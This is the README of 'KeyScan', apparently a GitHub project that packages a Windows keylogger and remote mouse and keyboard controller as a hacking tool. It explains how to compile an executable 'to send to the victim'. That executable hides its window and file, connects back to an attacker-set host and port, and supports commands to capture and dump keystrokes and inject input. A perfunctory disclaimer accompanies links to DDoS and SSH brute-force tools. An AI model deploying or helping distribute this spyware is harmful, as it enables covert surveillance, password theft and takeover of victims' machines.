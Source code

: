 # KeyScan
KeyScan is a C++ open source explanation tool targeting windows operating system. it allows you to send keyboard events, mouse events and capture keystrokes (keylogger).!

Before you keep on reading please support my hard work by leaving a star and follow up if you want me to keep creating hacking tools like this.!!
# Disclaimer
It should be highly noted that this tool wasn't made with the intention to make or cause any damages or any illegal usage. By using KeyScan you accept that you'll be held responsible for improper usage and not the author.

# Features
* The program runs just like every other programs so no need to bypass any antivirus software or window defender ✅️.
* Control keyboard remotely ✅️.
* Control mouse remotely ✅️.
* Keylogging ✅️.
* Automatically hide the exe file on first run ✅️
* The window is hidden to victim but still visible in the task manager.  ✅️

# Features working on
* SSL/TLS ❌️
* Shell features ❌️

# How does it work.?!
In this repository, the folder [keyscan](keyscan) contains the source codes that needs to be compiled before sending it to the victim. Just install the requirements and KeyScan will automatically compile it for you.!!
When the victim opens the malicious executable file, the window will be invisible to the victim and the program will also make itself hidden (meaning it will make the executable file hidden). At the other side the attacker will be waiting for the victim to open the file, after opened, then a session is opened.

# Platforms
* Linux ✅️
* Windows ✅️
* Termux (Android) ✅️

# Screenshots
![test](screenshots/keyscan2.png)
![keyscan](screenshots/keyscan3.PNG)

# Requirements
* GCC and mingw-w64 on Linux and Termux
* MinGW on Windows

# Installation on Linux and Termux
```
git clone https://github.com/4anonz/KeyScan.git
cd KeyScan
g++ main.cpp -o keyscn
./keyscn
```
# Installation on Windows
```
g++ main.cpp -o keyscn.exe -lws2_32
.\keyscn.exe
```
# Sending the exe file to the victim
If you're working on Linux you need to install mingw for compiling C++ windows programs on linux.
install it using:
```
sudo apt-get install mingw-w64
```
And on termux using:
```
git clone https://github.com/mirror/mingw-w64.git
cd mingw-w64
./configure --prefix=$PREFIX --without-crt
DESTDIR=$PREFIX make install
```
# How to use KeyScan?.
Set the local ip and port number using these commands.
```
lhost ip
lport port number
```
Then type exploit and the program will generate the .exe file that needs be send to the victim.
# KeyScan Commands
```
SETTING OPTIONS: Set this options before lauching the attack!
Command                           Discribtion
-------                           ------------
lhost                              Sets the local host or ip address to listen on.
lport                              Sets the local port number to listen on. default 4444
exploit                            Run the script.
help                               Print this help message
clear                              Clear screen
exit                               Exit program

SESSION COMMANDS: This commands are only valid when a session is opened
LOGGING KEYSTROKES:
====================
keyscan_start                      Start capturing keystrokes
keyscan_dump                       Dump the captured keystrokes buffer.
keyscan_stop                       Stop capturing keystrokes.
SENDING MOUSE EVENTS:
=====================
mouse_move x y                     Move the mouse to x and y coordinates. The value range of x and y is 0-65535
mouse_click left                   Left click
mouse_click right                  Right click
mouse_click middle                 Click the middle mouse button
mouse_click double                 Double click the left mouse button
SENDING KEYBOARD EVENTS:
========================
keyboard_send                      Send keystrokes. This must be followed by the keys(or text) you want to send
keyevent                           Send keyboard events. like CTRL+C, ALT+F4.
                                    you must use the '+' sign to indicate that the keys should be press together.
                                    for a single key just type the key name example 'keyevent SHIFT' to press the shift key.
Supported keyevents:
A-Z, F1-F12, SHIFT, ENTER, SPACE, BACKSPACE, ALT, ESC, PAGEUP, PAGEDOWN, HOME, LEFTARROW, RIGHTARROW, UPARROW
DOWNARROW, PRINTSCRN, INSERT, DELETE, CAPS
These values are case sensetive. You must use them in upper case except for A-Z(you can use them in upper or lower case).
EXAMPLES:
keyboard_send You have been hacked!
keyevent CTRL+c
keyevent ALT+F4
keyevent ENTER
tmouse_move 2345 345
mouse_click right
```
# Author
Anonymous Hacks(4anoz) - I'm White Hat😎️.
# Bugs Feedback & Suggestions
Please reports any bugs found, you can personally send me [email](digitalguru64@gmail.com)
Or [facebook](https://facebook.com/4anonz)

# Other repositories
DDoS script: https://github.com/4anonz/Flood
Network packet sniffer: https://github.com/4anonz/packt
SSH Auditing and brute force: https://github.com/4anonz/SSHCred
